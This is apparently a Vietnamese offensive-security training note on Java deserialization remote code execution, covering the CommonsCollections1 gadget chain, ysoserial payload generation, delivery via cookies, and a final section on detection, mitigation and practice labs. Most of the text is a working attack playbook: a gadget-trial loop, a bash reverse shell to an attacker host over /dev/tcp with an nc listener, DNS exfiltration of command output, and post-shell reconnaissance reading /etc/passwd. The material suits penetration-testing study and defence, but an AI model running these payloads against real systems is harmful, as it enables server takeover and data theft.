

> **Prerequisites**: [[08-java-serialization-internals|08. Java Serialization Internals]]
> **Objectives**:
> - Hiểu anatomy của CC1 gadget chain: từng bước từ readObject đến Runtime.exec()
> - Sử dụng ysoserial để generate và deliver payloads
> - Trial-and-error gadget selection workflow với URLDNS probe
> - Detect và confirm RCE qua DNS callback / sleep timing

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Application deserialize untrusted data (ObjectInputStream.readObject() on user input)
> - Vulnerable library có gadget chain nằm trong classpath (e.g., commons-collections 3.1)
> - Network access đến endpoint nhận serialized data
> - (Cho CC1 cụ thể) JDK version ≤ 1.7 hoặc commons-collections 3.1/3.2.0

> [!tip] Gadget chain không cần code của attacker trên server
> Tất cả code trong gadget chain đã tồn tại sẵn trên server (trong các library). Attacker chỉ control *data* (serialized object), không inject code mới. Đây là điều làm deserialization RCE đặc biệt nguy hiểm.

---

## Cơ chế tấn công

### Property-Oriented Programming (POP)

Tương tự PHP POP chains, Java gadget chains hoạt động theo nguyên tắc Property-Oriented Programming: attacker kiểm soát *data* (object properties) để dẫn dắt execution flow đi qua chuỗi method calls có sẵn trong library, cuối cùng reach một "sink" nguy hiểm như `Runtime.exec()`.

### CommonsCollections1 (CC1) — Full Chain Anatomy

![[assets/img-09-cc1-gadget-chain.png]]
*Hình 1: CC1 full gadget chain — từ readObject() đến Runtime.exec(), toàn bộ code đã có sẵn trong commons-collections 3.1*

**Entry gadget** — `AnnotationInvocationHandler.readObject()`:

```java
// AIH.readObject() — đây là điểm entry
private void readObject(ObjectInputStream stream) {
    // memberValues là Map, attacker control nó thành một Proxy
    Map<String, Object> memberValues = ...;
    // Khi iterate memberValues -> gọi entrySet() trên Proxy
    // Proxy.invoke() được gọi -> chuyển sang LazyMap
}
```

**Proxy layer** — Java Dynamic Proxy với AIH là InvocationHandler:

```java
// Bất kỳ method nào gọi trên Proxy đều route qua AIH.invoke()
// AIH.invoke() gọi memberValues.get(key)
// memberValues thực sự là LazyMap
```

**LazyMap.get()** — trigger ChainedTransformer:

```java
public Object get(Object key) {
    if (!map.containsKey(key)) {
        // factory là ChainedTransformer — attacker control
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
}
```

**ChainedTransformer** — executes transformer sequence:

```java
// Transformer sequence (attacker-crafted):
Transformer[] chain = {
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod",
        new Class[]{String.class, Class[].class},
        new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke",
        new Class[]{Object.class, Object[].class},
        new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec",
        new Class[]{String.class},
        new Object[]{"calc.exe"})  // ← attacker's command
};
```

**Sink** — `Runtime.exec(command)` → RCE.

> [!warning] CC1 đã bị patch trong JDK 8u72
> Từ JDK 8u72, `AnnotationInvocationHandler.memberValues` phải là `LinkedHashMap`, không accept LazyMap → CC1 không work trên modern JDK. Nhưng CC2, CC3, CC4, CC6 vẫn work. ysoserial xử lý việc này tự động.

### ysoserial Payload List

```bash
java -jar ysoserial.jar --help 2>&1 | grep -A100 "^$" | head -50
```

Các gadget chains quan trọng nhất:

| Gadget | Library | Điều kiện | Impact |
|--------|---------|-----------|--------|
| `CommonsCollections1` | commons-collections 3.1 | JDK ≤ 7u21 | RCE |
| `CommonsCollections2` | commons-collections4 4.0 | Any JDK | RCE |
| `CommonsCollections6` | commons-collections 3.1 | Any JDK (JDK8+ fix cho CC1) | RCE |
| `CommonsBeanutils1` | commons-beanutils 1.9.2 | Any JDK | RCE |
| `Spring1` / `Spring2` | spring-core 4.1 | Any JDK | RCE |
| `Groovy1` | groovy 2.3.x | Any JDK | RCE |
| `URLDNS` | JDK (no 3rd-party needed) | **Any JDK, any classpath** | DNS lookup only — detect |
| `JRMPClient` | JDK | Any | 2-stage RCE |

---

## Quy trình tấn công

**Môi trường giả định**: Java web app tại `http://10.10.10.100:8080`, serialized data trong cookie `session`.

### Bước 1 — Xác nhận Java Deserialization Tồn Tại

```bash
# Decode cookie hiện tại, kiểm tra header
echo "rO0ABXNy..." | base64 -d | xxd | head -4
# 0000000: aced 0005 7372 ...   ← Java serialized confirmed
```

> **Expected output**: `aced 0005` ở bytes đầu → confirmed Java serialized.

### Bước 2 — URLDNS Probe (không cần gadget library)

URLDNS là gadget chain an toàn nhất để confirm: không cần commons-collections, work trên mọi JDK, chỉ trigger DNS lookup.

```bash
# Generate URLDNS payload
java -jar ysoserial.jar URLDNS "http://$(id).YOUR-COLLABORATOR.oastify.com" > urldns.ser

# Encode thành base64
base64 -w0 urldns.ser > urldns.b64

# Deliver qua cookie
curl -s http://10.10.10.100:8080/ \
  -H "Cookie: session=$(cat urldns.b64)"
```

> **Expected output**: Burp Collaborator nhận DNS query cho `YOUR-COLLABORATOR.oastify.com` → confirmed deserialization is happening.

### Bước 3 — Trial Gadget Chains (theo thứ tự)

```bash
# JDK 16+ cần thêm flags
JAVA_FLAGS="--add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED"

# Thử lần lượt — bắt đầu với sleep để confirm không cần kết nối ra ngoài
for gadget in CommonsCollections6 CommonsCollections2 CommonsBeanutils1 Spring1 Groovy1; do
  echo "[*] Trying: $gadget"
  java $JAVA_FLAGS -jar ysoserial.jar $gadget "sleep 5" > /tmp/test.ser
  ENCODED=$(base64 -w0 /tmp/test.ser)
  START=$(date +%s)
  curl -s http://10.10.10.100:8080/ -H "Cookie: session=$ENCODED" -m 10
  END=$(date +%s)
  ELAPSED=$((END-START))
  echo "Elapsed: ${ELAPSED}s"
  [ $ELAPSED -ge 5 ] && echo "[!] HIT: $gadget works!" && break
done
```

> **Expected output**: Khi đúng gadget, response sẽ delay 5 giây → `Elapsed: 5s` → `[!] HIT`.

### Bước 4 — Reverse Shell

```bash
# Tạo reverse shell payload
LHOST="10.10.14.5"
LPORT="4444"
CMD="bash -c 'bash -i >& /dev/tcp/${LHOST}/${LPORT} 0>&1'"

java $JAVA_FLAGS -jar ysoserial.jar CommonsCollections6 "$CMD" > shell.ser
ENCODED=$(base64 -w0 shell.ser)

# Listener
nc -lvnp $LPORT &

# Deliver
curl -s http://10.10.10.100:8080/ -H "Cookie: session=$ENCODED"
```

> **Expected output**: Reverse shell kết nối đến listener → `id` → `uid=1000(tomcat)`.

### Bước 5 — Verify và Escalate

```bash
# Trên reverse shell
id && hostname && cat /etc/passwd | grep -v nologin
ls -la /opt/app/WEB-INF/lib/  # Xác nhận libraries hiện có
find / -name "*.jar" 2>/dev/null | xargs -I{} basename {} | sort -u | grep commons
```

---

## Biến thể & Bypass

### Khi Commons Collections Bị Blacklist

```bash
# Thử Spring gadget chains
java -jar ysoserial.jar Spring1 "id > /tmp/out" > spring1.ser
java -jar ysoserial.jar Spring2 "id > /tmp/out" > spring2.ser

# CommonsBeanutils không cần commons-collections
java -jar ysoserial.jar CommonsBeanutils1 "id > /tmp/out" > cb1.ser

# JRMPClient — 2-stage: gây server kết nối về attacker's JRMPListener
java -jar ysoserial.jar JRMPListener 4444 &
java -jar ysoserial.jar JRMPClient "10.10.14.5:4444" > jrmp.ser
```

### Khi JDK Mới (16+) Blocks Internal Access

```bash
# Sử dụng ysoserial-all.jar (contains merged dependencies)
java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
     --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
     --add-opens=java.base/java.net=ALL-UNNAMED \
     --add-opens=java.base/java.util=ALL-UNNAMED \
     -jar ysoserial-all.jar CommonsCollections6 "id"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Detect & Confirm**

```bash
# Decode và kiểm tra magic bytes
echo "<base64>" | base64 -d | xxd | head -2

# URLDNS probe — không cần library
java -jar ysoserial.jar URLDNS "http://collab.oastify.com" | base64 -w0

# Timing probe qua curl
time curl -s <URL> -d "$(java -jar ysoserial.jar CC6 'sleep 5' | base64 -w0)"
```

**Generate Payloads**

```bash
# Sleep confirm
java -jar ysoserial.jar CommonsCollections6 "sleep 5" > cc6_sleep.ser

# Reverse shell
java -jar ysoserial.jar CommonsCollections6 \
  "bash -c 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'" > shell.ser

# Write file (blind RCE confirm)
java -jar ysoserial.jar CommonsCollections6 \
  "touch /tmp/pwned_$(date +%s)" > touch.ser

# DNS exfil với command output
java -jar ysoserial.jar CommonsCollections6 \
  "nslookup \$(id | md5sum | cut -c1-8).collab.oastify.com" > dns_exfil.ser
```

**Deliver Payloads**

```bash
# Via curl raw binary POST
curl -s <URL> --data-binary @shell.ser

# Via base64 cookie
curl -s <URL> -H "Cookie: session=$(base64 -w0 shell.ser)"

# Via Burp Repeater — paste hex trong body (Content-Type: application/octet-stream)
```

**Verify RCE**

```bash
# Listener
nc -lvnp 4444

# Confirm từ shell
id && hostname && uname -a
cat /proc/version
ls /opt /srv /var/www 2>/dev/null
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 10 ngày đầu.

**Drill 1 — Nhận diện Java serialized data**
Mục tiêu: nhìn base64 biết ngay đây là Java serialized object.

```bash
# Test strings — phân biệt Java vs non-Java:
echo "rO0ABXNy..."   # Java? → YES (rO0AB prefix)
echo "H4sIAAAA..."   # Java? → MAYBE (gzipped, cần decompress)
echo "eyJ1c2Vy..."   # Java? → NO (base64 của JSON)
echo "gASVbgAAAA..." # Java? → NO (Python pickle)
```

Luyện cho đến khi: nhận ra `rO0AB` trong < 2 giây.

**Drill 2 — ysoserial URLDNS probe**
Mục tiêu: gõ đúng lệnh URLDNS không cần nhìn cheatsheet.

```bash
java -jar ysoserial.jar URLDNS "http://test.collab.oastify.com" | base64 -w0
```

Luyện cho đến khi: gõ command đầy đủ trong < 20 giây, nhớ flag `-w0`.

**Drill 3 — Full chain từ detection đến shell**
Mục tiêu: thực hiện cả flow trong < 10 phút.

```bash
# 1. Detect (xxd check)
# 2. URLDNS probe
# 3. Sleep test CC6
# 4. Deliver reverse shell
# 5. Catch với nc
```

Luyện cho đến khi: không cần mở notes trong suốt flow.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Log pattern**: `java.io.InvalidClassException` trong application logs → deserialization đang xảy ra
> **Network**: Outbound DNS query bất thường từ app server → URLDNS probe
> **Process**: `Runtime.exec()` / `ProcessBuilder` spawn từ Java process → likely gadget chain execution
> **File system**: Unexpected files created in `/tmp` từ Java process → blind write test
>
> **SIEM rule**: Alert on `java.lang.Runtime` method invocation từ deserialization context (RASP-level monitoring)

> [!note] Mitigation
> - Không deserialize untrusted data — replace Java serialization bằng JSON/Protobuf
> - Implement `ObjectInputFilter` (JDK 9+) với whitelist strict classes
> - Deploy SerialKiller agent để blacklist known gadget classes
> - Update commons-collections → 3.2.2+ (CC gadgets đã bị disabled)
> - Network segmentation: app server không được phép initiate outbound connections

---

## Lab Thực hành

| Platform | Machine | Tại sao phù hợp |
|----------|---------|----------------|
| HTB | **Arkham** (Retired) | Apache Shiro + Commons Collections gadget chain |
| HTB | **LogForge** (Retired) | ysoserial via log4shell JNDI |
| PortSwigger | **Exploiting Java deserialization with Apache Commons** | Lab official ysoserial workflow |
| PortSwigger | **Developing a custom gadget chain for Java** | Advanced — custom chain building |
